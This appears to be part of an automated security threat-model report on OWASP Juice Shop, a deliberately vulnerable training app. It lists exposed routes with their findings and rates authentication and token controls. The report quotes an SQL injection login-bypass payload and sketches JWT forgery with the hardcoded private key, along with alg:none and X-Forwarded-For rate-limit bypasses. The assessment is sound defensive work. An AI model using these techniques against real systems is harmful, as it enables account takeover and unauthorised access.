<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-003">F-003</a> — OAuth Derived Password from Email Enables Credential (<code>oauth.component.ts:30</code>)<br/>🟠 <a href="#f-043">F-043</a> — No Rate Limiting on Login Endpoint (<code>server.ts:594</code>)<br/>🟠 <a href="#f-045">F-045</a> — Unbounded Login Brute Force No Rate Limit (<code>server.ts:594</code>)<br/>SQL injection entry point — unauthenticated; raw string interpolation into SELECT query</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🟠 High</td><td>🟠 <a href="#f-039">F-039</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟡 <a href="#f-057">F-057</a> — No Audit Log on Unauthenticated File Upload or (<code>routes/fileUpload.ts:75</code>)<br/>handler: <code>server.ts:310</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🟠 High</td><td>🟠 <a href="#f-039">F-039</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:311</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>🟠 High</td><td>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)<br/>Management surface; handler: <code>server.ts:605</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>🟠 High</td><td>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)<br/>Management surface; handler: <code>server.ts:604</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>🟠 High</td><td>🟠 <a href="#f-036">F-036</a> — Weak MD5 Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>handler: <code>server.ts:618</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-016">F-016</a> — Rate Limit Bypass (<code>server.ts:346</code>)<br/>🟠 <a href="#f-045">F-045</a> — Unbounded Login Brute Force No Rate Limit (<code>server.ts:594</code>)<br/>🟠 <a href="#f-037">F-037</a> — Verbose Error Handler Exposing Stack Traces (<code>server.ts:676</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/encryptionkeys/:file</code></td><td>🟠 High</td><td>🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated FTP and Encryption Key Directory Listing (<code>server.ts:269</code>)<br/>Serves RSA public key and <code>premium.key</code> — unauthenticated; path traversal mitigated by slash check only</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/security-question</code></td><td>🟠 High</td><td>🟠 <a href="#f-016">F-016</a> — Rate Limit Bypass (<code>server.ts:346</code>)<br/>handler: <code>server.ts:597</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🟠 High</td><td>🔴 <a href="#f-019">F-019</a> — Unauthenticated WebSocket Channel (<code>registerWebsocketEvents.ts:24</code>)<br/>🟠 <a href="#f-023">F-023</a> — Disabled Lockfile Enforcement Allows Dependency Substitution<br/>🟠 <a href="#f-031">F-031</a> — GitHub Actions workflow missing top-level permissions block (<code>ci.yml</code>)<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>?</td><td style="overflow-wrap:anywhere"><code>WSS Socket.IO /</code></td><td>🟠 High</td><td>🔴 <a href="#f-019">F-019</a> — Unauthenticated WebSocket Channel (<code>registerWebsocketEvents.ts:24</code>)<br/>🟠 <a href="#f-047">F-047</a> — Unbounded WebSocket Connection Acceptance (<code>registerWebsocketEvents.ts:20</code>)<br/>🟡 <a href="#f-062">F-062</a> — ReDoS (<code>registerWebsocketEvents.ts:47</code>)<br/>Real-time chat channel — persistent WebSocket connection; no per-message authentication validation</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/redirect</code></td><td>🟡 Medium</td><td>🟡 <a href="#f-062">F-062</a> — ReDoS (<code>registerWebsocketEvents.ts:47</code>)<br/>handler: <code>server.ts:656</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>-</td><td>handler: <code>server.ts:401</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>-</td><td>Prometheus metrics - unauthenticated; exposes internal application topology and request patterns<br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>handler: <code>server.ts:312</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>handler: <code>server.ts:623</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>-</td><td>handler: <code>server.ts:625</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>handler: <code>server.ts:642</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:641</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:668</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_26 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (56 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (53)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-009">F-009</a> — Mass Assignment: role Field Writable (<code>server.ts:483</code>)<br/>🔴 <a href="#f-013">F-013</a> — Mass Assignment Admin Role (<code>server.ts:499</code>)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-009">F-009</a> — Mass Assignment: role Field Writable (<code>server.ts:483</code>)<br/>🔴 <a href="#f-013">F-013</a> — Mass Assignment Admin Role (<code>server.ts:499</code>)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-020">F-020</a> — Stored XSS in Product Descriptions (<code>search-result.component.ts:132</code>)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-020">F-020</a> — Stored XSS in Product Descriptions (<code>search-result.component.ts:132</code>)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🔴 <a href="#f-020">F-020</a> — Stored XSS in Product Descriptions (<code>search-result.component.ts:132</code>)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🟠 High</td><td>🟠 <a href="#f-044">F-044</a> — No Rate Limiting on B2B Orders Endpoint Enables Event-Loop (<code>server.ts:645</code>)<br/>B2B order endpoint — JWT required but key is hardcoded; <code>vm.runInContext</code> sandbox escape RCE possible</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/chatbot/respond</code></td><td>🟠 High</td><td>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)<br/>handler: <code>server.ts:630</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/chatbot/status</code></td><td>🟠 High</td><td>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)<br/>handler: <code>server.ts:629</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​user/​authentication-​details</code></td><td>🟠 High</td><td>🟠 <a href="#f-050">F-050</a> — Two-Factor Authentication Disable (<code>routes/2fa.ts:158</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>handler: <code>server.ts:599</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/submitKey</code></td><td>🟠 High</td><td>🔴 <a href="#f-028">F-028</a> — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (<code>routes/checkKeys.ts:10</code>)<br/>handler: <code>server.ts:638</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>-</td><td>handler: <code>server.ts:432</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>-</td><td>handler: <code>server.ts:457</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_23 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (53 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

The following sections evaluate the security control architecture of OWASP Juice Shop across 13 control domains. Each domain is rated against code evidence from the repository. Because Juice Shop is a deliberately vulnerable training application, most domains are rated Unsafe or Missing by design.

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN: the table below is emitted by the pregenerator from `threat-model.yaml`. Do not re-author. -->
| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication](#72-identity-and-authentication-controls) | 🔴 Unsafe | SQL injection on login, hardcoded RSA<br/>private key, and unsalted `MD5` password<br/>hashing collapse the authentication boundary |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Unsafe | JWTs stored in `localStorage`<br/>(XSS-accessible), no server-side logout, and<br/>forged tokens valid for the full 6-hour<br/>window |
| [7.4 Authorization Controls](#74-authorization-controls) | 🟠 Weak | JWT role claim present; ownership check<br/>absent on 18 object-level endpoints |
| [7.5 Query Construction and Data Access](#75-query-construction-and-data-access-controls) | 🔴 Unsafe | Raw SQL interpolation in login and search;<br/>NoSQL selector injection in review updates |
| [7.6 Input Boundary Validation](#76-input-boundary-validation-controls) | 🟠 Weak | No global validation middleware; `eval()` on<br/>user input; outdated `sanitize-html` |
| [7.7 Output Encoding and Rendering](#77-output-encoding-and-rendering-controls) | 🔴 Unsafe | Helmet XSS filter disabled; user-controlled<br/>CSP header injection enables stored XSS |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Unsafe | Wildcard CORS and no Content-Security-Policy<br/>header |
| [Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection-controls) | 🔴 Unsafe | Four hardcoded secrets in a public<br/>repository; unsalted `MD5` for password<br/>storage |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🔴 Unsafe | XXE with `noent:true` enabled; SSRF with no<br/>URL allowlist |
| [7.11 Operations Runtime and Supply Chain](#711-operations-runtime-and-supply-chain-controls) | 🟠 Weak | No lockfile; critically outdated JWT<br/>libraries; unpinned CI action refs |
| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🟡 Partial | `Socket.IO` present; per-message JWT<br/>re-validation gap |
<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.2.1 Password-Based Authentication](#721-password-based-authentication)
- [7.2.2 Multi-Factor Authentication (TOTP)](#722-multi-factor-authentication-totp)
- [7.2.3 Social Login Adapter (OAuth / OIDC)](#723-social-login-adapter-oauth-oidc)
- [7.2.4 Password Reset](#724-password-reset)
- [7.2.5 Anonymous Access Controls](#725-anonymous-access-controls)

**Implemented controls:** Password login via `routes/login.ts`, optional TOTP via `routes/2fa.ts`, Google OAuth adapter in `oauth.component.ts`, password reset via `routes/resetPassword.ts`

**Assessment:** Authentication is structurally present at every layer but cryptographically or logically broken at each. The login path uses raw SQL string interpolation, making the password check bypassable without knowing a valid password. Password storage uses unsalted `MD5`. JWT signing relies on a hardcoded 1024-bit RSA private key committed to a public repository. The JWT verifier at `lib/insecurity.ts:54` does not pin the algorithm, enabling an `alg:none` bypass with `express-jwt@0.1.3`. Each successful authentication flow terminates in the server issuing a session token; the signing, validation, storage, and lifecycle of that token are described in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<a id="721-password-based-authentication"></a>

#### 7.2.1 Password-Based Authentication

**Status:** 🔴 Unsafe - SQL injection bypasses the credential check entirely, and unsalted `MD5` makes any exfiltrated hash immediately recoverable.

`routes/login.ts` handles credential verification. The route receives `req.body.email` and `req.body.password`, hashes the password using `security.hash()` from `lib/insecurity.ts`, and issues an authenticated session. Registration at `server.ts:407` writes the hashed password to the `Users` table. Password change at `routes/changePassword.ts` re-hashes the new value with the same primitive. The full lifecycle - login, registration, change - feeds the same `security.hash()` function at `lib/insecurity.ts:43`.

The diagram shows the intended password login path and where it breaks down:



**Security assessment**

Two independent weaknesses sit on the password login path:

- `routes/login.ts:34` interpolates `req.body.email` directly into a raw SQL string: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '${security.hash(...)}'`. The payload `' OR 1=1--` short-circuits the WHERE clause and returns the seeded admin account.
- `lib/insecurity.ts:43` implements `security.hash()` as `crypto.createHash('md5').update(data).digest('hex')` - a single-round, unsalted `MD5`. Any dump obtained through injection immediately yields passwords recoverable by rainbow tables.

**Relevant findings**

- 🔴 [F-004](#f-004) — SQL injection at `routes/login.ts:34` allows authentication bypass without a valid credential.
- 🟠 [F-022](#f-022) — Unsalted MD5 password hashing makes every stored credential trivially reversible.
- 🟠 [F-036](#f-036) — Duplicate MD5 hashing finding from `data-layer` component confirming the same primitive at `lib/insecurity.ts:43`.
- 🟠 [F-043](#f-043) — No rate limiting on the login endpoint permits unbounded brute-force attempts.
- 🟠 [F-045](#f-045) — Overlapping login brute-force finding from the `express-backend` component.

<a id="722-multi-factor-authentication-totp"></a>

#### 7.2.2 Multi-Factor Authentication (TOTP)

**Status:** 🟡 Partial - TOTP enrollment and verification are implemented but the factor is optional and bypassed by the JWT forgery path.

TOTP is available as an opt-in second factor via `routes/2fa.ts`. A user who has enabled 2FA must present a valid TOTP code during login via a two-step flow: the first step verifies the password and issues a partial session; the second step (`POST /rest/2fa/verify`) consumes the TOTP token and issues a full JWT. The `otplib` library handles HMAC-TOTP generation and verification.



**Security assessment**

- **Enrollment** (🟢 Adequate): `routes/2fa.ts` correctly generates a per-user TOTP secret with `otplib` and stores it encrypted.
- **Verification** (🟡 Partial): Verification logic at `routes/2fa.ts:158` compares the submitted TOTP token against the stored secret, but the check uses `security.hash()` (`MD5`) to derive a comparison value from the stored `MD5` password hash, meaning an attacker who can compute an `MD5` preimage of the target password disables 2FA.
- The JWT forgery path (🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23`) bypasses TOTP entirely - an attacker who mints a valid admin token with the committed private key never interacts with the 2FA flow.

**Relevant findings**

- 🟠 [F-050](#f-050) — TOTP disable bypass via MD5 password preimage at `routes/2fa.ts:158`.

<a id="723-social-login-adapter-oauth-oidc"></a>

#### 7.2.3 Social Login Adapter (OAuth / OIDC)

**Status:** 🟠 Weak - the OAuth flow is a frontend-only adapter that terminates in the same broken local login path.

`oauth.component.ts` implements a Google OAuth2 frontend adapter, not a server-side authorization-code flow. The component reads an access token from the redirect URL, calls the Google userinfo endpoint through `UserService.oauthLogin()`, derives a deterministic local password from the returned email address, creates a local `Users` row if absent, and then calls the standard `POST /rest/user/login` endpoint.

The diagram shows how the OAuth adapter routes through local login:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA
    Note over SPA: oauth.component.ts
    participant Google
    Note over Google: Google UserInfo API
    participant API
    Note over API: Local User + Login API
    participant JWT
    Note over JWT: JWT Issuer

    User->>SPA: Return from OAuth redirect with access token
    SPA->>Google: Fetch user profile (email)
    Google-->>SPA: Email address
    SPA->>API: Create local user if absent
    SPA->>API: POST /rest/user/login (derived password)
    API->>JWT: Issue local session JWT
    API-->>SPA: JWT + basket id
```

**Security assessment**

This is not a full server-side OAuth/OIDC authorization-code control. Google identity is used only as a frontend identity hint; the resulting session is a local password-login session with all its weaknesses intact. Because the derived password is computed deterministically from the email address (🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30`), any party who knows the algorithm and the target email can generate a valid credential without Google interaction.

**Relevant findings**

- 🔴 [F-003](#f-003) — OAuth-derived password from email allows credential bypass without completing an OAuth flow.
- 🟠 [F-015](#f-015) — OAuth implicit flow without state or PKCE exposes the access token to token substitution.
- 🟠 [F-027](#f-027) — OAuth access token exposed in the URL fragment via implicit flow.

<a id="724-password-reset"></a>

#### 7.2.4 Password Reset

**Status:** 🔴 Unsafe - security-question reset has no rate limit and the X-Forwarded-For header can be spoofed to bypass IP-based throttle.

`routes/resetPassword.ts` implements password reset as a single-step security-question challenge: the caller supplies `email`, the security question answer, and a new `password`. The route compares the supplied answer against the stored value and updates the `Users.password` column directly with the `MD5` hash of the new password.

**Security assessment**

- No emailed token or out-of-band confirmation is required. A correct reset path would issue a single-use token via a verified channel.
- The rate-limit key at `server.ts:346` uses `req.headers['x-forwarded-for']` rather than the server-validated remote IP. Any client can set this header to rotate the apparent source IP and avoid per-IP throttling.

**Relevant findings**

- 🟠 [F-016](#f-016) — Rate-limit bypass via attacker-controlled `X-Forwarded-For` at `server.ts:346`.

<a id="725-anonymous-access-controls"></a>

#### 7.2.5 Anonymous Access Controls

**Status:** 🔴 Unsafe - management surfaces, data export, and file upload endpoints are reachable without credentials.

Juice Shop registers route handlers in `server.ts`. Authentication middleware (`isAuthorized()` from `lib/insecurity.ts`) is applied selectively. Several categories of endpoint are intentionally or accidentally missing the middleware: the multipart file upload at `server.ts:309-311`, all continue-code endpoints, the data-export endpoint `POST /rest/user/data-export`, wallet balance mutation `PUT /rest/wallet/balance`, and management surfaces `/rest/admin/application-configuration` and `/rest/admin/application-version`.

**Security assessment**

- `POST /file-upload`, `POST /profile/image/file`, and `POST /profile/image/url` at `server.ts:309-311` are registered before `isAuthorized()` is applied, leaving them open to unauthenticated callers.
- `/rest/admin/application-configuration` and `/rest/admin/application-version` at `server.ts:604-605` expose detailed runtime configuration and deployed version to unauthenticated requests.
- `POST /rest/user/data-export` at `server.ts:618` allows data export without credential verification.

**Relevant findings**

- 🔴 [F-018](#f-018) — Missing authentication on `POST /file-upload` at `server.ts:309`.
- 🔴 [F-051](#f-051) — Sensitive routes registered without authentication middleware across `server.ts`.
- 🔴 [F-052](#f-052) — Unauthenticated admin endpoints at `server.ts:604`.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.3.1 Session Token Signing (JWT Based)](#731-session-token-signing-jwt-based)
- [7.3.2 Session Token Validation (JWT Based)](#732-session-token-validation-jwt-based)
- [7.3.3 Session Token Storage (Browser localStorage)](#733-session-token-storage-browser-localstorage)
- [7.3.4 Session Token Revocation](#734-session-token-revocation)
- [7.3.5 Session Token Expiry](#735-session-token-expiry)

**Implemented controls:** `RS256` JWT signing via `lib/insecurity.ts`; `express-jwt@0.1.3` for token validation; `authenticatedUsers` in-memory map; 6-hour token expiry

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. Every stage of the lifecycle is compromised: the signing key is public, the verifier accepts algorithm substitution, tokens are stored in XSS-accessible `localStorage`, server-side revocation does not exist, and the 6-hour expiry is the only constraint on a stolen or forged token.

<a id="731-session-token-signing-jwt-based"></a>

#### 7.3.1 Session Token Signing (JWT Based)

**Status:** 🔴 Unsafe - the RSA private key is committed to the public repository; any reader can mint valid admin tokens offline.

⚠ **Anti-pattern:** Secrets hardcoded in source

`lib/insecurity.ts` exports `issueAuthToken()`, which signs a `{ id, email, role }` payload with a 1024-bit RSA private key using `jsonwebtoken@0.4.0`. The private key is declared as a multi-line string constant at `lib/insecurity.ts:23`. Both `routes/login.ts` and `routes/2fa.ts` call this helper, so all session tokens share the same key material.

The diagram shows the signing path and the broken key boundary:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant Repo
    Note over Repo: Public GitHub Repo
    participant CLI
    Note over CLI: Local jwt.sign()
    participant API
    Note over API: Express API

    alt Current state
        Attacker->>Repo: git clone then read lib/insecurity.ts:23
        Repo-->>Attacker: RSA private key PEM
        Attacker->>CLI: jwt.sign({role:"admin"}, privateKey, {algorithm:"RS256"})
        CLI-->>Attacker: Valid admin JWT
        Attacker->>API: Authorization: Bearer forged
        API-->>Attacker: 200 OK - admin response
    else After mitigation
        note over API: Key loaded from external secret store, not source - old tokens invalid after rotation
    end
```

**Security assessment**

The private key at `lib/insecurity.ts:23` is a 1024-bit RSA key below NIST SP 800-131A's 2048-bit minimum. Because it is committed to a public GitHub repository (referenced at `https://github.com/juice-shop/juice-shop`), it is permanently compromised. Rotating the key requires a new secret store reference and token invalidation - a `git revert` of the commit does not help because the key is in git history.
